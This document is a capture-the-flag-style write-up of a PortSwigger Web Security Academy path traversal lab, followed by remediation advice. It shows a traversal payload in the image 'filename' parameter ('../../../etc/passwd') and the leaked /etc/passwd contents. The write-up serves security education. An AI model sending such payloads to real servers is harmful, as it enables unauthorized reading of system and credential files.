


# Lab 01: File Path Traversal (Simple Case)

## 🎯 Objective
To read the contents of the `/etc/passwd` file from the server by exploiting a path traversal vulnerability in the product image loading functionality.

## 🛠️ Environment & Tools Used
- **Target:** PortSwigger Web Security Academy (Lab Instance)
- **Tool:** Burp Suite Professional (Proxy & Repeater)

## 🔍 Vulnerability Analysis
The application uses a `filename` parameter to retrieve images from the server (e.g., `GET /image?filename=60.jpg`). The application fails to sanitize user input, allowing relative path sequences (like `../`) to traverse outside the intended image directory.

## 💥 Exploitation Steps

### 1. Intercept the Request
While browsing the website with the Burp Suite Proxy enabled, I captured the request for a product image. The HTTP history shows the original request for `60.jpg`:


### 2. Modify the Payload
I sent the request to **Repeater** and changed the `filename` parameter to traverse up the directory tree and reach the sensitive `/etc/passwd` file:

```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: [lab-id].web-security-academy.net
```

### 3. Verify Result
The server responded with `HTTP 200 OK`, and the response body contained the contents of `/etc/passwd`:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



### ✅ Lab Solved!



## 🛡️ Remediation (How to Fix)
To prevent path traversal vulnerabilities, developers should:

1. **Avoid passing file paths directly:** Use an index or database ID to map to files instead of taking user input as a file path.
2. **Input validation:** Sanitize input by removing or blocking traversal sequences (e.g., `../`, `..\`).
3. **Use a whitelist:** Allow only known filenames or extensions.
4. **File permissions:** Run the web server with minimum privileges (Principle of Least Privilege) so critical files stay inaccessible even if traversal succeeds.

---
*Writeup by Tanmay Sarkar Emon*
